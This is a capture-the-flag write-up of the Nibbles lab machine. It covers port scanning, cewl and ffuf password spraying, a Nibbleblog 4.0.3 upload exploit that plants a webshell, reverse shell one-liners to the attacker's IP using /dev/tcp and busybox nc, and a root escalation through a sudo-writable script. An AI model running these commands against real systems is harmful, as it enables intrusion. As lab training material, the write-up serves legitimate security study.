



# Overview

What was this box about? What made it interesting or what did you learn?
One short paragraph.

# Enumeration

## Port Scan

```bash
# Nmap 7.93 scan initiated Mon Jul 13 19:58:16 2026 as: nmap -p- -Pn -oN full_ports.out --min-rate 1000 10.129.5.71
Nmap scan report for 10.129.5.71
Host is up (0.0090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Mon Jul 13 19:58:37 2026 -- 1 IP address (1 host up) scanned in 20.87 seconds
```

## UDP Scan

```bash
[Jul 13, 2026 - 20:37:15 (+08)] exegol-htb nibbles # nmap -sU --min-rate 5000 -p- "$TARGET"
Starting Nmap 7.93 ( https://nmap.org ) at 2026-07-13 20:37 +08
Warning: 10.129.5.71 giving up on port because retransmission cap hit (10).
Stats: 0:01:58 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 81.95% done; ETC: 20:39 (0:00:26 remaining)
Nmap scan report for 10.129.5.71
Host is up (0.033s latency).
All 65535 scanned ports on 10.129.5.71 are in ignored states.
Not shown: 65385 open|filtered udp ports (no-response), 150 closed udp ports (port-unreach)
```

## Services

```bash
[Jul 13, 2026 - 20:38:49 (+08)] exegol-htb nibbles # sudo nmap -Pn -sC -sV -p $PORTS -oN recon/tcp.out $TARGET
Starting Nmap 7.93 ( https://nmap.org ) at 2026-07-13 20:39 +08
Nmap scan report for 10.129.5.71
Host is up (0.0080s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

### SSH (tcp/22)

- Access isn't possible without credentials.
- No public exploit for SSH version as yet.

### HTTP (tcp/80)

- Navigating to the site using a browser shows an almost blank site
  
- There is a comment about a directory link in the page source
  
- Going to that directory shows a blog of some short
  

- The blog seems to run on a PHP based CMS based on the page source.

#### Directory Busting

- Directory busting for hidden files shows that there is a readme file that's exposed, possibly giving the version of the CMS being used to run the blog:

```bash
# Feroxbuster link
http://10.129.5.71/nibbleblog/README

# Readme content
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com

===== Social =====
* Twitter: http://twitter.com/nibbleblog
* Facebook: http://www.facebook.com/nibbleblog
* Google+: http://google.com/+nibbleblog

===== System Requirements =====
* PHP v5.2 or higher
* PHP module - DOM
* PHP module - SimpleXML
* PHP module - GD
* Directory “content” writable by Apache/PHP

<SNIP>
```

The rest of the file is lorem ipsum.

# Initial Access

- There seems to be a vulnerablity with this version of NibbleBlog (v4.0.3).

> There is an unrestricted file upload vulnerablity in the My Image plugin in Nibbleblog before 4.0.5 that allows remote administrators to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in content/private/plugins/my_image/image.php.

- There are public POCs for this vulnerablilty, but these require credentials to get into the site.
- The vulnerability requires authenticating to the admin panel to upload the payload.
- Password spraying the admin panel works but the password candidates have to be catered to the site.

```bash
# cewl to grab words from the site
[Jul 14, 2026 - 00:08:37 (+08)] exegol-htb admin_panel # cewl http://$TARGET/nibbleblog/ -d 3 -m 5 > cewl.txt
[Jul 14, 2026 - 00:17:57 (+08)] exegol-htb admin_panel # ls
cewl.txt  login_request.txt
[Jul 14, 2026 - 00:18:02 (+08)] exegol-htb admin_panel # cat cewl.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Nibbles
Hello
world
posts
Uncategorised
Music
Videos
HEADER
PLUGINS
Categories
Latest
image
Pages
There
FOOTER
Powered
Nibbleblog
nibbleblog

# ffuf to password spray
[Jul 14, 2026 - 00:07:45 (+08)] exegol-htb admin_panel # ffuf -w ../../cewl.txt:FUZZPW -request ./login_request.txt -request-proto http

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.5.71/nibbleblog/admin.php?controller=user&action=login
 :: Wordlist         : FUZZPW: /workspace/nibbles/cewl.txt
 :: Header           : Host: 10.129.5.71
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: keep-alive
 :: Header           : Referer: http://10.129.5.71/nibbleblog/admin.php?controller=user&action=login
 :: Header           : Cookie: PHPSESSID=8vqetr97psh1fm3ioo2ii89ed4
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://10.129.5.71
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Data             : username=admin&password=FUZZPW
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

posts                   [Status: 200, Size: 1541, Words: 86, Lines: 27, Duration: 20ms]
FOOTER                  [Status: 200, Size: 1541, Words: 86, Lines: 27, Duration: 25ms]
Latest                  [Status: 200, Size: 1541, Words: 86, Lines: 27, Duration: 31ms]
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/) [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 35ms]
Nibbles                 [Status: 200, Size: 1541, Words: 86, Lines: 27, Duration: 35ms]
image                   [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 36ms]
Categories              [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 40ms]
Hello                   [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 40ms]
PLUGINS                 [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 40ms]
Uncategorised           [Status: 200, Size: 1541, Words: 86, Lines: 27, Duration: 40ms]
world                   [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 285ms]
Nibbleblog              [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 1289ms]
Videos                  [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 1290ms]
There                   [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 2300ms]
Music                   [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 2300ms]
HEADER                  [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 2301ms]
Pages                   [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 2304ms]
nibbleblog              [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 3301ms]
Powered                 [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 3305ms]
:: Progress: [19/19] :: Job [1/1] :: 5 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

## Admin panel


## File Upload POCs

- There is a [POC for the vulnerability](https://github.com/hadrian3689/nibbleblog_4.0.3) that allows for a webshell.

```bash

# Deploying Payload
[Jul 14, 2026 - 00:29:47 (+08)] exegol-htb nibbleblog_4.0.3 # python3 nibbleblog_4.0.3.py -t http://$TARGET/nibbleblog/admin.php -u admin -p nibbles -shell
/root/.pyenv/versions/3.11.14/lib/python3.11/site-packages/requests/__init__.py:113: RequestsDependencyWarning: urllib3 (2.6.3) or chardet (6.0.0.post1)/charset_normalizer (3.4.4) doesn't match a supported version!
  warnings.warn(
Nibbleblog 4.0.3 File Upload Authenticated Remote Code Execution
Loggin in to http://10.129.5.71/nibbleblog/admin.php
Logged in and was able to upload exploit!
Payload located in http://10.129.5.71/nibbleblog/content/private/plugins/my_image/rse.php
RCE: whoami
nibbler
nibbler
RCE: sh -i >& /dev/tcp/10.10.14.187/9001 0>&1

RCE: busybox nc 10.10.14.187 9001 -e sh

# Catching Reverse shell
[Jul 14, 2026 - 00:28:49 (+08)] exegol-htb nibbles # penelope -p 9001
[+] Listening for reverse shells on 0.0.0.0:9001 →  127.0.0.1 • 192.168.215.2 • 10.10.14.187
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from Nibbles 10.129.5.71 Linux-x86_64 👤 nibbler(1001) • Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3
[+] Interacting with session [1] • Shell Type PTY • Menu key F12 ⇐
[+] Logging to /root/.penelope/sessions/Nibbles~10.129.5.71-Linux-x86_64/2026_07_14-00_32_35-597.log
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

- The basic bash reverse shell code doesn't work, and this required the use of busybox.

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
nibbler
```

## Loot

- There is a file on the desktop called `personal.zip`.

```bash
[Jul 14, 2026 - 00:43:28 (+08)] exegol-htb loot # unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
[Jul 14, 2026 - 00:43:32 (+08)] exegol-htb loot # ls
personal  personal.zip
[Jul 14, 2026 - 00:43:33 (+08)] exegol-htb loot # tree
.
├── personal
│   └── stuff
│       └── monitor.sh
└── personal.zip

3 directories, 2 files
```

# Privilege Escalation

# Sudo Check

```bash
nibbler@Nibbles:/var/www/html/nibbleblog$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

- This shows the user nibbler can run the shell script `monitor.sh` as root witout using a password.

- There is potential to modify this file to spawn a bash shell with root privileges.

```bash
# Modify the file to open a bash shell as root

# cat monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash

# unset any variable which system may be using
sudo /bin/sh -p

<SNIP>


# Dropped into a bash shell as root

nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

# Lessons Learned

- Finding the default credentials to this box was annoying because it had been done many times before. So I decided to use Cewl to create a custom one. I think this might be a better approach so that I really narrow down on the spraying candidates or risk a lockout.
- It is very important to try and find the lockout policy before spraying.
